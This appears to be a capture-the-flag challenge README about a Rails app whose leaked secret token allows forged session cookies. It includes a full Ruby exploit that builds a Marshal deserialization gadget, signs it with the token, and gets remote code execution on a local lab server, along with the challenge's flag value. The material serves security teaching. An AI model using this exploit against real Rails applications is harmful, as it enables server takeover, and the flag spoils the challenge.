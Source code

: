 # Open Source Key Leak

It was (maybe still is?) common for Rails newbs and experts to check the config/secret_key.rb file into their version control system. We did this previously (https://github.com/mitre-cyber-academy/2013-web-400). The original challenge was vulnerable to a SQL injection -- this has been patched, but we are leaving the secret key the same. Usernames, passwords, and the key have also changed. By crafting a cookie using the secret key, competitors can take advantage of a remote code execution by passing a "legit" cookie, having it get un-serialized, and then the code contained in the cookie get executed.


## Solution

Solution credit: http://robertheaton.com/2013/07/22/how-to-hack-a-rails-app-using-its-secret-token/

    require "net/http"
    require "uri"
    require 'erb'
    require 'base64'
    require 'openssl'

    module ActiveSupport
      module Deprecation
        class DeprecatedInstanceVariableProxy
          def initialize(instance, method, var, deprecator)
            @instance = instance
            @method = method
            @var = var
            @deprecator = deprecator
          end
        end
      end
    end


    secret_token = 'c95f554820d160cac5792840a37900b98b30cd61f7dc7260a7532a8ffe15f46ddfd1e9005d648119a4f77d7f4221cb19ee6ef7d0bd4e08a42436502c212e9848'

    erb = ERB.allocate
    erb.instance_variable_set(:@src, 'thing = Message.first.body; system("echo #{thing} >> public/flag.txt");')

    proxy = ActiveSupport::Deprecation::DeprecatedInstanceVariableProxy.new(erb, :result, "foo", ActiveSupport::Deprecation)
    my_evil_session_hash = {proxy => 'something'}

    # Serialize your hash
    marshal_dump = Marshal.dump(my_evil_session_hash)

    # Base64 encode this dump
    unescaped_cookie_value = Base64.encode64(marshal_dump).gsub("\n", "")

    # Escape any troublesome characters and remove line breaks altogether
    escaped_cookie_value = CGI.escape(unescaped_cookie_value).gsub("%0A", "")

    # Calculate the signature using the HMAC digest of the secret_token and the escaped cookie value. Replace %3D with equals signs.
    cookie_signature = OpenSSL::HMAC.hexdigest(OpenSSL::Digest::SHA1.new, secret_token, escaped_cookie_value.gsub("%3D", "="))

    # Construct your evil cookie by concatenating the value with the signature
    my_evil_cookie = "_rails_messaging_app_session=#{unescaped_cookie_value}--#{cookie_signature}"

    # BOMBS AWAY
    url = URI.parse("http://localhost:80/") # Make sure you have a trailing / if you are sending to the root path

    req = Net::HTTP::Get.new(url.path)
    req.add_field("Cookie", my_evil_cookie)

    res = Net::HTTP.new(url.host, url.port).start do |http|
        http.request(req)
    end

    puts res.inspect


## Building/Running the Challenge

    git clone
    ...
    docker-compose up --build -d
    # Wait a minute...
    docker-compose run  --rm web /bin/bash -c "bundle exec rake db:create RAILS_ENV=production && bundle exec rake db:schema:load RAILS_ENV=production && bundle exec rake db:seed RAILS_ENV=production"

**Competitors will also need to be informed that the file they create needs to have a name longer than 25 characters.**

This project uses the new format of the docker-compose file, which must be installed from https://github.com/docker/compose/releases and requires a version 1.7 or greater.

## Flag

763d661f088cbd9e83ed2d3f6c4865cca6f1d284